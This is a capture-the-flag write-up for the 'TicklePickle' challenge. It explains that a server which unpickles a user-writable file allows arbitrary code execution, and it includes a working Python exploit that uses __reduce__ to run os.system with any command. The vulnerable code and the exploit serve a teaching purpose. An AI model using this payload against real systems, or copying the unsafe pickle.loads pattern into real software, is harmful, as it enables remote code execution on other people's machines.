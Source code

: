 # Sainya Ranakshetram

### TicklePickle

Vulnerability: Pickle deserialization of arbitrary input

The challenge provides two files:

```py
server.py

import os
import pickle
def reverse_fun():
      with open("users.json","rb") as f:
          data = f.read()
      
      d = pickle.loads(data)
      return d

if __name__ == '__main__':
      print(reverse_fun())
```

```py
client.py

import os
import pickle
def fun(name,password):
    s = {"username":name,"password":password}
    safecode = pickle.dumps(s)
    with open("users.json","wb") as f:
        f.write(safecode)
    return safecode

if __name__ == '__main__':
    u = input("Username : ")
    p = input("Password : ")
    yo_fun = fun(u,p)
```

As can be seen, the `client.py` takes in whatever input is provided to it and serializes it to a pickle object and stores it in the `user.json` file.

The server reads this `user.json` file and performs pickle deserialization. An attacker can modify the file to make pickle deserialize arbitrary code which can lead to RCE (Remote Code Execution), and therefore reverse shells, on the server.

Here's an exploit:

```py
exploit.py

#!/usr/bin/env python3

import os
import pickle
import argparse

# Thanks https://davidhamann.de/2020/04/05/exploiting-python-pickle/
class Exploit:
    def __init__ (self, command):
        self.command = command

    def __reduce__ (self):
        return (os.system, (self.command, ), )

def exploit ():
    parser = argparse.ArgumentParser('Exploit for TicklePickle Sainya Ranakshetram CTF')
    parser.add_argument('--command', help = 'Command to execute by attacker on client\'s machine', required = True, type = str)

    args = parser.parse_args()

    with open('users.json', 'wb') as file:
        pickled = pickle.dumps(Exploit(args.command))
        file.write(pickled)

if __name__ == '__main__':
    exploit()
```

Thanks,
made by
Rishav Baisla
